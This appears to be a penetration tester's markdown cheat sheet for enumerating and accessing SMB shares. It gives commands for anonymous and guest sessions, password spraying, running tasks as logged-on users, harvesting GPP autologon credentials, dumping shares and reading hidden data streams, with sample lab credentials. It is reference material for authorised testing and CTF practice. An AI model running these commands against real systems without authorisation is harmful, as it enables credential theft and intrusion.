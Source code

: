 # smb Enumeration

## Basic enumeration

Use enum4linux-ng

	enum4linux-ng -A <target_ip> -oA <ouput_file>

## Check Sessions

### Anonymous Session

Try to create an anonymous session and list the shares:

	smbclient -N -L <hostname>

If there are shares to access we can try to connect doing:

	smbclient \\\\<hostname>\\<sharename>>

We can print all files of a share by doing:

	smbclient \\\\<hostname>\\sharename -c 'recurse;ls'

### Null Session

	netexec smb <target-ip> -u '' -p ''

### Guest Session

	netexec smb <target-ip> -u 'randomusername' -p 'randompassword'
	netexec smb <target-ip> -u 'Guest' -p ''

### Username and Password, but no session

If we have a valid username and password, but still can find a session, we can try requesting a TGT and using it:

```
impacket-getTGT <domain>/<username>:<password>
export KRB5CCNAME=<username>.ccache
nxc smb <target.ip> -d <domain> -k --use-kcache
```

### Session Found

If we found a session with netexec then do:

	--shares
	--pass-pol
	--users
	--groups
	--sam (only local admin?)
	--rid-brute

	--loggedon-users

If there are logged on users whe can try some impersonting scheduling of tasks

	-M schtask_as -o USER=<loggedon_username> CMD=whoami


Try to look for Group Policy Preferences (GPP) store plaintext or AES-encrypted credentials for AutoLogon in Active Directory environments:
```shell
netexec smb 172.16.8.3 -u ssmalls -p Str0ngpass86! -M gpp_autologin
```


## Test users

	netexec smb <target_ip> -u usernames.txt -p passwords.txt --continue-on-success


## Try local authentication

Adding --local-auth to any of the authentication commands with attempt to logon locally.

	nxc smb 192.168.1.0/24 -u UserNAme -p 'PASSWORDHERE' --local-auth


# File system tree and downloading files

	-M spider_plus #creates a file tree of the shares
	-M spider_plus -o DOWNLOAD_FLAG=True # to dump all files

	To download a specific file we can use smbmap

## More netexec enum

	https://www.netexec.wiki/smb-protocol/enumeration

## Use msfconsole to scan the smb version

In msfconsole

	use auxiliary/scanner/smb/smb_version
	set RHOSTS <target_ip>
	run

## Use nmap

	nmap -v -p 445,139 <or_other_smb_ports> --script=smb* <target_ip>


## If you find an empty file in the share we can look for some hidden data:

Connect with smbclient
Then do:

	allinfo <name_of_file_that is empty>

And check if there are other streams, for example:

	stream: [::$DATA], 0 bytes
	stream: [:Password:$DATA], 15 bytes

Here the default data stream has 0 bytes, but the Password stream has 15 bytes.
We can download this data stream by doing:

	get <nameofile>:Password


## If we have an account with read/write permission

We can psexec into that account

	https://github.com/Andre92Marcos/tools/tree/master/psexec


## Cookbook

Download multiple files

	smbget -R smb://fileserver/directory

Mount a smb share:

	Install the cifs utils if not installed already
	sudo apt install cifs

	Create the dir the mount will be on:
	sudo mkdir /mnt/<dir_for_share>

	Finally mount the share:

	sudo mount -t cifs //hostname/sharename /mnt/dir_for_share/
	sudo mount -t cifs //nest.htb/Users /mnt/users/

	With username and pass:

	sudo mount -t cifs //nest.htb/Secure$ /mnt/secure -o username=TempUser,password=welcome2019

## More Information

https://book.hacktricks.xyz/network-services-pentesting/pentesting-smb#smb